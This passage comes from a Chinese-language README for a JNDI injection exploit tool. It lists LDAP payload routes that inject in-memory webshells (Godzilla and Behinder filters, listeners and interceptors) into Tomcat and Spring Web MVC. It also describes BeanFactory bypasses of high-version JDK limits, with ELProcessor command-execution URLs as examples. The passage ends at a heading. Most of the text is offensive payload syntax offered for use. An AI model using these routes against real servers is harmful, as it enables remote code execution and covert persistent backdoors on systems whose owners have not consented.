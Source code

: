 ## 内存马注入

基于 [MemShellParty](https://github.com/ReaJason/MemShellParty) 项目

目前仅支持通过 Basic/BeanFactory/Deserialize 路由注入内存马

```bash
# 格式
ldap://127.0.0.1:1389/Basic/MemShell/{server}/{tool}/{type}

# Tomcat Godzilla Filter
ldap://127.0.0.1:1389/Basic/MemShell/Tomcat/Godzilla/Filter
# Tomcat Godzilla Listener
ldap://127.0.0.1:1389/Basic/MemShell/Tomcat/Godzilla/Filter

# Spring Web MVC Behinder Interceptor
ldap://127.0.0.1:1389/Basic/MemShell/SpringWebMvc/Behinder/Interceptor
# Spring Web MVC Behinder Controller
ldap://127.0.0.1:1389/Basic/MemShell/SpringWebMvc/Behinder/ControllerHandler

# 更多内存马类型参考 MemShellParty README
```

## BeanFactory 绕过

基于 BeanFactory 绕过高版本 JDK 限制, Tomcat 版本需小于 8.5.79、9.0.63、10.0.21 或 10.1.0-M14

支持如下绕过方式:

- Tomcat ELProcessor
- Groovy ClassLoader/Shell
- XStream
- SnakeYaml
- BeanShell
- MVEL
- MLet
- NativeLibLoader

*上述方式除 MLet 和 NativeLibLoader 外, 均支持 Basic 模块所有功能*

### Tomcat ELProcessor

利用 `javax.el.ELProcessor` (Tomcat 8-9) 或 `jakarta.el.ELProcessor` (Tomcat 10) 执行 EL 表达式

```bash
# Tomcat Bypass (8-9)
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Tomcat Jakarta Bypass (10)
ldap://127.0.0.1:1389/TomcatJakartaBypass/Command/open -a Calculator
```

### Groovy ClassLoader/Shell
